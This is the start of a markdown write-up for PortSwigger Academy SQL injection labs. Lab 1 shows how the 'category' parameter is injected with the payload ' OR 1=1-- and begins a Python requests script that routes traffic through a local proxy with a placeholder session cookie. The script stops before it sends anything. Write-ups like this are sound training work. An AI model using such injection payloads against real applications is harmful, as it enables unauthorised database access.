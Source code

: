 # Portswigger Writeups

This contains all the writeups for the SQL Injection labs from PortSwigger Academy, from easy to hard.

## Lab 1: WHERE Clause

To solve lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

When viewing products, can see that `productId` is set depending on the website used:

![](../../.gitbook/assets/sql-injection-portswigger-writeup-image.png)

Sending a `'` character results in an "Invalid Product ID" message, meaning SQL Injection works.

![](../../.gitbook/assets/sql-injection-portswigger-writeup-image-1.png)

Based on the website's clues, there is a `category` variable that is vulnerable. Setting it to `' OR 1=1--` would cause the query to return everything and solve the lab.

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
headers = {
	'Cookie':'session=<cookie>'
}
# category=Clothing%2c+shoes+and+accessories
params = {
	'category':"' OR 1=1--"
}

```